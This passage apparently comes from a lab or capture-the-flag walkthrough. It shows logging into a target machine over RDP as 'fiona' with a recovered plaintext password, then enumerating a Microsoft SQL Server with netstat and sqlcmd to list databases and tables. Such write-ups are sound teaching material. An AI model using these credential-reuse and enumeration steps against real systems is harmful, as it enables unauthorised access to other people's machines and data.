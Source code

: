   * We can now RDP into the machine as 'fiona':

    ```sh
    xfreerdp /u:fiona /p:'48Ns72!bns74@S84NNNSl' /v:10.129.203.10
    ```
  
  * Since the note found from John's folder mentioned a database, we can check for DB related utilities on target:

    ```sh
    # in RDP session, open command prompt

    # sqsh or mysql does not exist on box
    # we have sqlcmd here, so MSSQL could be used

    # this can be further confirmed when we check internal ports
    netstat -ano
    # shows 1433/TCP is listening

    # also, in C drive we have a folder named SQL2019

    # trying to log into sqlcmd with the same creds does not work
    # as we are not aware of the server name as well

    # simply using the utility itself works in this case

    sqlcmd
    SELECT name FROM master.dbo.sysdatabases
    go

    # this gives us two non-default DBs - we can check them

    USE TestingDB
    go

    SELECT table_name FROM TestingDB.INFORMATION_SCHEMA.TABLES
    go
    # no tables in this DB
